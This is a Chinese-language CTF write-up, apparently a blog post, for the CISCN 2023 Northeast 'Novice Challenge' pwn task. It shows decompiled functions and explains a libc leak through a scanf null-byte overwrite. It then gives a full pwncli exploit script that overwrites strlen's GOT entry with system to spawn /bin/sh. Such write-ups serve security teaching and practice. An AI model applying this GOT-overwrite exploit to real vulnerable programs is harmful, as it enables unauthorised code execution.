 ```yaml
---
title: CISCN 2023 东北赛区 pwn
date: 2023-07-26 19:50:34
urlname: ciscn2023pwn
tags: [pwn]
---
```

（缓慢更新中1/4）
## Novice Challenge
一句话版本：改strlen的got表

首先从sub_96B中泄漏libc地址：
```c
int sub_96B()
{
  int v1; // [rsp+Ch] [rbp-264h] BYREF
  __int64 v2[44]; // [rsp+10h] [rbp-260h] BYREF
  char v3[252]; // [rsp+170h] [rbp-100h] BYREF
  int v4; // [rsp+26Ch] [rbp-4h]

  v4 = 4;
  puts("Welcome to this challenge!");
  v2[0] = (__int64)&puts;
  __isoc99_scanf("%252s", v3);
  puts("Good luck!");
  __isoc99_scanf("%d", &v1);
  if ( v1 > 15 && v1 <= 21 )
    v4 = v1;
  else
    puts("No!");
  puts("gift:");
  return puts((const char *)&v2[v4]);
}
```
目标是得到v2[0]中的puts的地址。
由于scanf %s会在字符串后面补0，且长度限制是不算这个0的。所以只要输入252个字符就会把v4覆盖成0，然后再输入一个不会进if的数就行了。

接下来看
```c
int sub_A31()
{
  size_t v0; // rax

  puts("index>>");
  __isoc99_scanf("%d", &dword_2020BC);
  if ( (unsigned int)dword_2020BC >= 0x20 )
  {
    puts("No!");
    exit(1);
  }
  puts("input>>");
  read(0, byte_2020A0, 0x20uLL);
  v0 = strlen(byte_2020A0);
  printf("data length is %d\n", v0);
  puts("bye~");
  read(0, &byte_2020A0[dword_2020BC], 4uLL);
  return close(1);
}
```
2020a0+0x20>2020bc，所以可以将这个下标覆盖掉，写到别的地方去。
strlen的got在2020a0-136的位置。负数取补码。

Exp:
```python
#!/usr/bin/env python3

from pwncli import *

cli_script()

libc: ELF = gift.libc
filename = gift.filename  # current filename
is_debug = gift.debug  # is debug or not
is_remote = gift.remote  # is remote or not
gdb_pid = gift.gdb_pid  # gdb pid if debug


if gift.remote:
    libc = ELF("./libc.so.6")
    gift[libc] = libc

sla("challenge!", "a" * 252)

sla("luck!", "0")

lb = recv_current_libc_addr(0x80970, 0x1000)

libc.address = lb

leak_ex2(lb)

sla("index>>\n", "0")

sa("input>>", flat({0: "/bin/sh;", 0x1C: p32(0xFFFFFF78)}))
print(hex(libc.sym.system))
sa("bye", flat(libc.sym.system)[:-4])

rl()
ia()
```

附注：
1、sub_96b的那个数组中后续的位置会出现一个ld.so中的函数地址（仅在使用靶机版本的libc时出现），利用见：<https://www.cnblogs.com/7resp4ss/p/17530599.html>

2、使用patchelf修改程序的libc和`ld.so` (interpreter)。只改libc可能会炸掉。
```
patchelf --set-interpreter /home/w1nd/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so /home/w1nd/Desktop/pwn
patchelf --replace-needed libc.so.6 /home/w1nd/Desktop/buu/libc-2.23-x64.so pwn
```
见：<https://www.cnblogs.com/xshhc/p/16777707.html>
3、Linux ELF与动态链接库 <https://juejin.cn/post/6939332933677219848>